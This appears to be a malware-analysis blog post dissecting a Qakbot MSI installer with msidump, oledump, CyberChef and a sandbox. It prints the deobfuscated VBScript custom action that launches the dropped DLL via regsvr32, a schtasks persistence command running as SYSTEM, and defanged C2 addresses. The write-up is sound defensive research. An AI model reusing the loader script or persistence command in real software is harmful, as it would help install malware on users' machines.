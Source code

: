 ```yaml
---
title: "QakbotMSI"
date: 2022-06-21T18:11:53-04:00
draft: false
---
```


### Executive Summary

- In mid-April 2022, Mandiant observed UNC2500 campaigns using MSI packages to distribute Qakbot payloads.
- This change comes shortly after Microsoft’s announcement that macros from Office documents downloaded from the internet (ZoneIdentifier ADS) will be blocked by default.
- This new payload uses a botnet ID **AA,** which is unique from previous campaigns that have used **tr**, **cullinan**, and **cullinan01**.
- Distribution came from phishing emails containing a malicious link from either OneDrive or files hosted on compromised websites that downloads a ZIP archive. That archive contains a Windows Installer Package (MSI) file. When the user executes the MSI file, a Qakbot DLL contained within an embedded Windows Cabinet File (CAB)  is executed.

### Analysis

This sample was originally published by @pr0xylife. 

I downloaded the MSI sample on both Remnux and FlareVM for static and dynamic analysis respectively. 

[https://twitter.com/pr0xylife/status/1521445754216267776](https://twitter.com/pr0xylife/status/1521445754216267776)

First is to just look at the file properties to see if there are any immediate indicators. An organization and an email. 

![Untitled](/Qakbot/Untitled.png)

`msidump` will dump all streams and tables from the MSI file. `oledump` can also be used and I’ll show an example of that too, but I found `msidump` just makes things a bit easier.

### Streams and Tables

Every .idt file below is a table. More specifically, an Installer Database Table. Using the `-s` and `-t` flag, **_Tables** and **_Streams** are outputted below. 

**_Tables** table lists all tables (.idt files) in the database. 

**_Streams** table lists embedded OLE data streams. It is a temporary table created only when referenced by a SQL statement. 

**Binary** folder is used to store data from `Binary.idt`. The binary table holds binary data for items like bitmaps, animations, and icons. It’s also used to store data for **custom actions** (more on this later)**.** 

### msidump

![Untitled](/Qakbot/Untitled%201.png)

![Untitled](/Qakbot/Untitled%202.png)

- `*.idt` are database files containing table data.
- `Binary/` and `_Streams/` hold executable and stream data.

### Oledump Example

`msidump` above gave a lot of useful information quickly, but as stated, MSI files contain OLE stream data, so `oledump` could be used as well.

Most of the text below is unreadable (for those that aren’t bilingual) but what’s more important is the middle column signifying stream byte size. 

![Untitled](/Qakbot/Untitled%203.png)

Going for the largest stream first seems profitable, so I’ll start with 4. 

![Untitled](/Qakbot/Untitled%204.png)

Ignore the broken pipe error. Main thing to focus on is the `MSCF` file signature which is a **Microsoft Cabinet Archive File.** Keep note of this.

Next is stream 5, but I won’t go further since the rest of the analysis was done using `msidump`. 

![Untitled](/Qakbot/Untitled%205.png)

The `BM` file signature is for bitmap images. Possibly for something in the MSI application window? 

Anyways, that was just an example of using `oledump.py`. It’s a bit more tedious to get table data, but it’s still possible. I’d just rather have all files readily available to look at. Back to the real task.

### More Tables

The **CustomAction** file can often contain malicious code for further execution, so that’s a good one to check first. 

![Untitled](/Qakbot/Untitled%206.png)

`DIRCA_TARGETDIR` notes something gets installed to the `%LOCALAPPDATA%\ProductName` folder. This at least gives a location to check on Windows machines for file creation. 

Note: [ProductName] is a placeholder for the actual package getting installed. As seen in the embedded tweet above, the package is called SetupTest, so something will evidently get installed to `%localappdata%\SetupTest`.  

That line above `DIRCA_TARGETDIR` points to a binary stream which may give more details about the action. 

Listing the stream data gives some obfuscated output.

![Untitled](/Qakbot/Untitled%207.png)

But thanks to this [tweet](https://twitter.com/ankit_anubhav/status/1521473716332339200?s=20&t=Bgp9wbsMNh2-k3FyXotADQ), a few find/replace operations in CyberChef can clear up the output a bit. Luckily this stream was lightly obfuscated. 

![Untitled](/Qakbot/Untitled%208.png)

Cleaned up output. Looking at line 4, now we know the name of the directory and a specific file written to it. This eases the dynamic analysis a bit on the Windows machine. 

```jsx
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""Set objShell = CreateObject( """"WScript.Shell"""" )"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""Dim reg"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""reg = """"regsvr32.exe """""" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""objShell.run reg & objShell.ExpandEnvironmentStrings(""""%localappdata%"""" & """"\SetupTest\"""" & """"5.dll"""")"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = Replace(VZUMLKCQLE, """", """")" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "Execute VZUMLKCQLE" & Vbcrlf
EVUCQUJ8D4 = Replace(EVUCQUJ8D4, "", "")
```

Next is the Property table. 

![Untitled](/Qakbot/Untitled%209.png)

Nothing...time to switch to `_Streams`. Sometimes the Manufacturer key can list interesting details, but not this time.

![Untitled](/Qakbot/Untitled%2010.png)

A **Microsoft Archive Cabinet File**? Where was that seen before? (hint: oledump)

Since it’s an archive file, time to use 7z to extract it.

![Untitled](/Qakbot/Untitled%2011.png)

Finally getting somewhere. A new file (`_699ADF8C0A7E43ED9D8607CA4CFAFB26`) was extracted and it is a PE32 executable DLL. This further proves the output from that obfuscated code in CyberChef. 

After grabbing the MD5 of the DLL, it appears on MalwareBazaar.

![Untitled](/Qakbot/Untitled%2012.png)

Remember above how the CustomAction.idt file showed a target directory. Well...

![Untitled](/Qakbot/Untitled%2013.png)

There’s the same .dll pulled from the `_Streams` directory. `SetupTest` is the ProductName within `LocalAppDataFolder\ProductName`. 

The sample is heavily packed with an entropy of 7.69 so I’ll view sandbox details instead. The sample on intezer was downloaded to `%localappdata%\Temp` instead of `%localappdata%\SetupTest` but besides that, everything else is the same. 

[](https://analyze.intezer.com/analyses/42429a7f-36f2-4977-909b-ba67d0398810/genetic-analysis)

```jsx
"C:\Windows\System32\rundll32.exe" "C:\Users\<USER>\AppData\Local\Temp\<ANALYZED-FILE-NAME>",#1
	C:\Windows\SysWOW64\explorer.exe
		"C:\Windows\system32\schtasks.exe" /Create /RU "NT AUTHORITY\SYSTEM" /tn okebdbmlat /tr "regsvr32.exe -s \"C:\Users\<USER>\AppData\Local\Temp\<ANALYZED-FILE-NAME>\"" /SC ONCE /Z /ST 19:48 /ET 20:00
			C:\Windows\system32\svchost.exe -k netsvcs
```

### Network Activity

Using FakeNetNG, I was able to capture some IPs albeit with different host IDs but sharing the same ASN. So new IOCs!

- 24.55.67[.]41
- 82.152.39[.]49
- 92.132.172[.]110
- 186.64.67[.]30
- 203.122.46[.]188

### Conclusion

This Qakbot sample shows threat actors are moving fast to find new infection vectors that aren’t Office macros given the recent crackdown from Microsoft. I showed a few ways to pull details from an MSI file and luckily even got some new IOCs. Qakbot isn’t the first to adapt to this though. Prior MSI files include:

- [Arkei](https://malpedia.caad.fkie.fraunhofer.de/details/win.arkei_stealer)
- [NjRAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.njrat)
- [STRRAT](https://malpedia.caad.fkie.fraunhofer.de/details/jar.strrat)

---

### IOCs

[Qakbot/Qakbot_AA_03.05.2022.txt at main · pr0xylife/Qakbot](https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_AA_03.05.2022.txt)

### References

[MalwareBazaar | Browse malware samples](https://bazaar.abuse.ch/sample/8cc8f32b2f44e84325e5153ec4fd60c31a35884220e7c36b753550356d6a25c8/)

[MalwareBazaar | Browse malware samples](https://bazaar.abuse.ch/sample/0150eb84d16f0330b2952c9c722fbf55e47d9697b27de9335de6113556e9b317/)

[Filesec.io](https://filesec.io/msi)

[Filesec.io](https://filesec.io/cab)

[Database Tables - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/msi/database-tables)

[Analyzing a Stealer MSI using msitools](https://forensicitguy.github.io/analyzing-stealer-msi-using-msitools/)